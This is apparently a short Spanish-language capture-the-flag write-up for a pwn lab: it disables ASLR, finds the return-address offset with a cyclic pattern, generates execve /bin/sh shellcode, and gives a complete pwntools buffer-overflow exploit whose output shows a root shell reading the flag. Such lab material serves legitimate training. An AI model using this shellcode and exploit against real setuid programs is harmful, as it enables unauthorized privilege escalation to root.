 # Shellcraft

- deshabilitar ASLR (address space layout randomization)

```bash
sudo ./disable_aslr.sh
```

- detectar el punto de quiebre y obtener EIP e ESP

```shell
thm> cyclic 100 > padding
gdb ./intro2pwnFinal
pwndbg> r < padding
 ESP  0xffffd4e0 ◂— 'uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
 EIP  0x61616174 ('taaa')
```

- creamos el shellcode con shellcraft

```bash
shellcraft i386.linux.execve "/bin///sh" "['sh','-p']" -f s
"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
```

- crear el exploit

```python
from pwn import *
proc = process('./intro2pwnFinal')
proc.recvline()
padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd4e0+200)
nop_slide = "\x90"*1000
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode
proc.send(payload)
proc.interactive()
```

- ejecutar el payload

```bash
python exp.py 
[+] Starting local process './intro2pwnFinal': pid 2036
[*] Switching to interactive mode
$ whoami
$ id
uid=1001(buzz) gid=1001(buzz) euid=0(root) groups=1001(buzz)
$ cd /root
$ ls
flag.txt
$ cat flag.txt
flag{pwn!ng_!$_fr33d0m}
$  
```